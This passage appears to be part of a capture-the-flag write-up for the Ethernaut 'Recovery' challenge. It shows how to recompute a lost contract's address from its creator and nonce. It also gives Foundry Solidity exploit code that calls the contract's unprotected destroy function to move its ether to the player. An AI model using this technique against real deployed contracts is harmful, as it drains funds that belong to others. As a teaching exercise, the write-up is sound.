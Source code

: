 **Bonus note**: nonces works differently for EOA and Contracts. While for a contract, the nonce is the number of contract that the contract itself has created, for EOA the nonce is the number of transaction that it has made.

Now we just need to know to replicate the RLP encoding in solidity. The Ethereum Stack Exchange comes to the rescue with a lot of knowledge [inside this comment](https://ethereum.stackexchange.com/a/761).

```solidity
address payable lostContract = address(
    uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(level), bytes1(0x01)))))
);
```

We can now proceed with the solution of the challenge.

## Solution code

Here's the solution code:

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // Calculate the address generated by the CREATE opcode
    // sender -> address of the `level` (token factory)
    // nonce -> `1` because it's the first token created by the factory
    // This is the RLP encoding alg in Solidity
    address payable lostContract = address(
        uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(level), bytes1(0x01)))))
    );


    // Assert that the contract has indeed some balance inside
    uint256 contractBalanceBefore = lostContract.balance;
    assertEq(contractBalanceBefore, 0.001 ether);

    // Call the contract's destroy function that will execute the `selfdestruct`
    uint256 playerBalanceBefore = player.balance;
    SimpleToken(lostContract).destroy(player);

    vm.stopPrank();

    // Assert that the contract has no more balance
    assertEq(lostContract.balance, 0);
    // Assert that the player's balance has increased by `contractBalanceBefore`
    assertEq(player.balance, playerBalanceBefore + contractBalanceBefore);
}
```

You can read the full solution of the challenge opening [Recovery.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Recovery.t.sol)
